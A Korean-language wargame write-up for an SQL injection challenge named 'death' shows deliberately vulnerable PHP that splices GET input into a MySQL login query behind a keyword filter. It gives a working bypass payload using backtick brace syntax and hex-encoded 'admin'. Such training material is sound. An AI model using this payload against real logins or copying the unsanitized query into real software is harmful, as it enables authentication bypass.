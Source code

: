 # death

## 1. Code
```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_death where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("death");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- `prob _ . () admin`을 필터링 한다.   
- 쿼리가 실행되어, id값이 'admin'이라면 문제가 해결된다.   

## 3. Solution   

이전 문제 <a href="./../cthulhu/cthulhu.md">cthulhu</a>와 같은 문제이다.   
웹방화벽(WAF) 우회를 목적으로 ``{`a`b}``구문을 이용하였다.   

변수 | 값
---|---
pw | ``1') or {`if`id=0x61646d696e}%23``